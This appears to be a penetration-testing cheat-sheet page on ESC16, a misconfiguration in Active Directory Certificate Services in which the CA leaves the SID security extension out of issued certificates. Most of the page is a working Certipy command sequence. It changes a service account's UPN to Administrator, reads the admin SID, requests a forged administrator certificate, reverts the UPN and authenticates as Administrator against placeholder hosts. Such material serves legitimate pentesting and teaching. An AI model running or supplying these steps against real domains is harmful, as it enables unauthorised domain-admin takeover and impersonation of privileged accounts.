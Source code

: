 # ESC16

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**ESC16**</mark> is a <mark style="color:purple;">**misconfiguration**</mark> in Active Directory Certificate Services where the CA is globally set—via the `DisableExtensionList` registry key or due to missing patches—to omit the `szOID_NTDS_CA_SECURITY_EXT` SID extension from all issued certificates, which breaks strong certificate-to-user mapping and allows attackers, under certain conditions (like DCs set to compatibility mode or combined with ESC6), to spoof UPNs or inject SIDs in SAN fields to impersonate privileged accounts using forged certificates.

> <mark style="color:yellow;">**ESC6:**</mark> Lets you **inject your own UPN and SID** into the **SAN (Subject Alternative Name)** field of a certificate request.

> <mark style="color:yellow;">**ESC16:**</mark> The CA is **misconfigured to&#x20;**_**not**_**&#x20;include the SID extension** (`szOID_NTDS_CA_SECURITY_EXT`) in certificates.

## <mark style="color:yellow;">EXPLOITATION</mark>

> If you would look into Certipy's docs, there is Scenario A and Scenario B, this is a little bit of both. Updating UPN part is from Scenario A, and requesting certificate with adding our UPN and SID is from Scenario B

#### Updating UPN

```bash
certipy account -u 'some_svc@militech.local' -hashes wubbalubbadubdub -dc-ip '13.13.13.13' -upn 'Administrator' -user 'some_svc' update
```

#### Exctracting Admin's SID

```bash
certipy account -u 'some_svc@militech.local' -hashes wubbalubbadubdub -dc-ip '13.13.13.13' -upn 'Administrator' -user 'some_svc' read
```

#### Requesting valid Admin's cert

```bash
certipy req -u 'some_svc@militech.local' -hashes wubbalubbadubdub -dc-ip '13.13.13.13' -target 'dc01.militech.local' -ca 'militech-DC01-CA' -template 'User' -upn 'administrator@militech.local' -sid 'S-1-5-21-...-500'
```

#### Updating back UPN

```bash
certipy account -u 'some_svc@militech.local' -hashes wubbalubbadubdub -dc-ip '13.13.13.13' -upn 'some_svc' -user 'some_svc' update       
```

#### Authenticating as Admin

```bash
certipy auth -pfx 'administrator.pfx' -username 'Administrator' -domain militech.local -dc-ip '13.13.13.13'
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally" %}
